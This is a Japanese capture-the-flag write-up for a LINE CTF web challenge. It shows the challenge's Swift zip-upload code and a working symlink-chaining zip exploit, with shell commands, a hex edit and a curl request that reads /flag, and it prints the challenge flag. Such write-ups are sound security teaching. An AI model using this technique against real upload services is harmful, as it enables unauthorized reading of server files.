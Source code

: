 # zipviewer-version-clown:Web:149pts
Read the flag (/flag)  
[http://35.243.120.91:11001/](http://35.243.120.91:11001/)  

[zipviewer-version-clown_3098d6e137345a5fc53729bcfb837375.zip](zipviewer-version-clown_3098d6e137345a5fc53729bcfb837375.zip)  

# Solution
URLとソースが渡される。  
アクセスするとユーザ名を入力して、ユーザページにzipをアップロードできるサイトだ。  
![site1.png](site/site1.png)  
アップロードしたファイルは展開され、個別にダウンロードできる。  
何とかして`/flag`を読めばよいらしい。  
swiftで書かれており、アップロード機能は以下のようであった。  
```swift
~~~
    app.post("upload") { req async throws -> ResponseMessage in
        _ = try getRealIPAddress(req: req)

        if !req.hasSession {
            throw Abort(.unauthorized, reason: "Session not found")
        }

        var hashed = ""
        var filePath = ""
        var fileName = ""

        let username = req.session.data["user"] ?? "Unknown"
        let uuid = req.session.data["uuid"] ?? "Unknown"
        req.logger.info("GET /upload -> NAME == \(username)")
        req.logger.info("GET /upload -> UUID == \(uuid)")

        do {
            if username == "Unknown" || uuid == "Unknown" {
                throw CustomError.MissingSessionError
            }

            hashed = try GenerateSHA256(username + uuid + SALT)
            filePath = "Upload/" + hashed
            fileName = filePath + ".zip"
            req.logger.info("filename : \(fileName)")

            try ClearFiles(filepath: filePath)

            let file = try req.content.decode(Input.self).data
            try IsZipFile(data: file)
            try await req.fileio.writeFile(ByteBuffer(data: file), at: fileName)

            let fileList = try GetEntryListInZipFile(fileName: fileName)
            _ = try Unzip(filename: fileName, filepath: filePath)

            guard try CleanupUploadedFile(filePath: filePath, fileList: fileList) else {
                throw Abort(.internalServerError, reason: "Something Wrong")
            }

        } catch CustomError.InvalidZipFile {
            throw Abort(.badRequest, reason: "File is not Zip")
        } catch {
            try ClearFiles(filepath: filePath)
            throw Abort(.internalServerError, reason: "Something Wrong")
        }

        return ResponseMessage(message: "DONE", status: 200)
    }
~~~
```
`Unzip`で展開しており、以下のような実装であった。  
```swift
func Unzip(filename: String, filepath: String) throws -> Bool {
    let fileManager = FileManager()
    let currentWorkingPath = fileManager.currentDirectoryPath

    var sourceURL = URL(fileURLWithPath: currentWorkingPath)
    sourceURL.appendPathComponent(filename)

    var destinationURL = URL(fileURLWithPath: currentWorkingPath)
    destinationURL.appendPathComponent(filepath)

    try fileManager.createDirectory(at: destinationURL, withIntermediateDirectories: true, attributes: nil)
    try fileManager.unzipItem(at: sourceURL, to: destinationURL, allowUncontainedSymlinks: true)

    return true
}
```
`allowUncontainedSymlinks: true`が怪しすぎるため、シンボリックリンクを用いた攻撃だと予測できる。  
ただし、シンボリックリンクは削除されるようだ。  
```swift
func CleanupUploadedFile(filePath: String, fileList: [String]) throws -> Bool {
    do {
        let fileManager = FileManager()
        let currentWorkingPath = fileManager.currentDirectoryPath

        print("File Count \(fileList.count)")

        for fileName in fileList {
            var originPath = URL(fileURLWithPath: currentWorkingPath)

            originPath.appendPathComponent(filePath)
            originPath.appendPathComponent(fileName)

            if !fileManager.fileExists(atPath: originPath.path) {
                print("file not found")
                continue
            }

            if (try IsSymbolicLink(filePath: originPath.path)) {
                print("Find Symbol!! >> \(originPath.path)")
                try fileManager.removeItem(at: originPath)
            }
        }
    } catch {
        return false
    }

    return true
}
```
実はひとつ前の問題としてzipviewer-version-citizenがあり、シンボリックリンクを用いたrace conditionでチームメンバが解いていた。  
内容としては、`./a -> /flag`のようなシンボリックリンクを含んだzipをアップロードし、展開されてからシンボリックリンクが削除されるまでの間に大量の読み取りリクエストを送るものだ。  
ただし、今回はレートリミットがかかっている。  
zip爆弾を作成し、展開に時間をかける手法もzipのファイルサイズ制限で難しい。  
どうにかしてシンボリックリンクが削除されないようにできないだろうか。  
ここで、シンボリックリンクを重ねることを試す。  
幸いzip内はファイル名を編集し、スラッシュを含ませることができる。  
以下のようにすると、`./a`や`./a/b`は削除が試みられるが、生成された`./b`が残る。  
```
./a -> ./
./a/b -> /flag
```
あとは残ったシンボリックリンクにアクセスしてやればよい。  
以下のようにok.zipを作成する。  
```bash
$ ln -s ./ ./a
$ ln -s /flag ./asb
$ zip -ry ok.zip *
  adding: a (stored 0%)
  adding: asb (stored 0%)
```
最後にバイナリエディタで`asb`を`a/b`へ書き換えてやる。  
![hex.png](images/hex.png)  
作成したok.zipをアップロードする。  
![site2.png](site/site2.png)  
アップロード後に、存在しないはずの`b`をダウンロードする。  
```bash
$ curl 'http://35.243.120.91:11001/download/b' -b 'vapor_session=MLLZHUZaSKJSFdDD25REWWDqw36rLtcY06F1hyave3Y='
LINECTF{34d98811f9f20094d1cc75af9299e636}
```
flagが得られた。  

## LINECTF{34d98811f9f20094d1cc75af9299e636}